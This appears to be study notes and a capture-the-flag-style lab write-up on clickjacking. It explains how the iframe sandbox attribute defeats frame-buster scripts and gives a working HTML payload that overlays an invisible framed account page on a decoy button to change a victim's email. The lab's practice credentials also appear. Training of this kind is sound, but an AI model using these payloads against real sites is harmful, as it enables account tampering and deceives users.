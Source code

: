- Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. 
- As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. 
- An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 
- When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:
```
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
- Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. 
- This inhibits frame busting behaviors while allowing functionality within the targeted site.

# Lab: Clickjacking with a frame buster script
- This lab is protected by a frame buster which prevents the website from being framed. 
- Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?
- To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.
- You can log in to your own account using the following credentials: wiener:peter
```
<head>
	<style>
		#target_website {
			position:relative;
			width:500px;
			height:500px;
			opacity: 0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
            top: 452px;
            left: 65px
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
        <button>Click Here</button>
	</div>
	<iframe id="target_website" src="https://0a55000d043ef003809b032b000400a9.web-security-academy.net/my-account/?email=hello%40test.co">
	</iframe>
</body>
```
